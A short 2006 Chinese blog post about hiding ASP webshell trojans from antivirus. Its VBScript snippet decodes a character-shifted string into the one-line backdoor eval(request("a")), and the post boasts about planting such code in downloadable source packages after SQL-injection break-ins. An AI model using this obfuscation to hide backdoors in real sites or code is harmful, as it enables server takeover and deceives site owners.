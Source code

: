 ﻿Title: ASP木马之无影随行
Date: 2006-11-06 00:37
Modified: 2006-11-06 00:37
Category: Program
Tags: asp,木马
Slug: 176
Authors: Yoker.Wu
Summary:
    看到下面的代码，也许你和我一样要问“为什么我就没有想到呢？”其实不然，在搞sql注入拿webshell后，最通常的做法是放马走人，冰狐浪子给我们的启迪很多Request("#")，多么经典的东西。就这么一小段代码，一个站的服务器配置不当，就会死翘翘。杀毒软件的升级，这些代码慢慢的变得不可靠了。
    目前大批的源代码下载站，给了很多站长们方便，可他们很难想象里面的马已经演练到如火纯青的地步了，杀毒软件识别不了，连你自己估计不仔细的斟酌，也难识别。


看到下面的代码，也许你和我一样要问“为什么我就没有想到呢？”其实不然，在搞sql注入拿webshell后，最通常的做法是放马走人，冰狐浪子给我们的启迪很多`Request("#")`，多么经典的东西。就这么一小段代码，一个站的服务器配置不当，就会死翘翘。杀毒软件的升级，这些代码慢慢的变得不可靠了。

目前大批的源代码下载站，给了很多站长们方便，可他们很难想象里面的马已经演练到如火纯青的地步了，杀毒软件识别不了，连你自己估计不仔细的斟酌，也难识别。看看下面的代码吧：

```vbnet
e = "hydo+uhtxhvw+%d%,,"
for i =1 to len(e)
    a=a&chr(asc(mid(e,i,1))-3)
Next
response.write (a)
```

你会想到什么呢？如果这个代码再演练一下，你的杀毒软件能耐我何！！！！

上面代码来至落伍者论坛的一篇帖子，看完，感触深啊！